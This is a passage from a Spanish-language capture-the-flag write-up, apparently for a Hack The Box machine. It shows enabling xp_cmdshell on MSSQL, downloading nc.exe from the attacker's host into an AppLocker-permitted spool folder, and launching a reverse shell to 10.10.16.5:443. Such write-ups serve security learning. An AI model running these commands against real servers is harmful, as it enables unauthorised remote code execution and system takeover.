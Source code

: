 #### Enabling the function (xp\_cmdshell) to get RCE in MSSQL

Al verificar que disponemos de los privilegios necesarios para habilitar la función mencionada, procederemos a habilitarla a través de la siguiente instrucción y a verificar que podemos ejecutar comandos.

Verificamos que hemos logrado ejecutar el comando `whoami` y nos indica que somos el usuario `sql_svc@sequel.htb`.

{% code overflow="wrap" %}
```sql
EXEC sp_configure "show advanced options",1; RECONFIGURE; EXEC sp_configure "xp_cmdshell",1; RECONFIGURE;

xp_cmdshell "whoami"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/3488_vmware_redDXO1NQn.png" alt=""><figcaption></figcaption></figure>

Verificado que podemos lograr ejecutar comandos, procederemos a disponer del binario de `nc.exe` en nuestro equipo atacante el cual compartiremos a través de un servidor web de Python.

Desde la consola de MSSQL procederemos a descargarnos el binario en una ubicación la cual el AppLocker no nos lo restringa. Por otro lado, procederemos a ponernos en escucha por un puerto y a ejecutar el binario de `nc.exe` desde la consola del MSSQL para proporcionarnos una Reverse Shell al equipo.

Verificamos que hemos logrado obtener acceso al equipo víctima con el usuario `sql_svc@sequel.htb`.

<pre class="language-bash"><code class="lang-bash"><strong># Desde Kali Linux
</strong><strong>python3 -m http.server 80
</strong><strong>
</strong>rlwrap -cAr nc -nlvp 443
</code></pre>

```sql
# Desde consola de MSSQL
xp_cmdshell "curl 10.10.16.5/nc.exe -o C:\Windows\System32\spool\drives\color\nc.exe"

xp_cmdshell "C:\Windows\System32\spool\drives\color\nc.exe -e cmd 10.10.16.5 443"
```

<figure><img src="../../../.gitbook/assets/3489_vmware_T9AQqSDyl2.png" alt=""><figcaption></figcaption></figure>
